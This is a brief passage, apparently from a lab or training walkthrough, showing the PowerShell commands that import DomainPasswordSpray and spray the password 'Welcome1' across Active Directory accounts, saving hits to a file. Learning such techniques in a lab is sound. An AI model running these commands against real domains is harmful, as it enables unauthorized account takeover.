 #### Using  [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray).ps1

```powershell
PS C:\htb> Import-Module .\DomainPasswordSpray.ps1
PS C:\htb> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

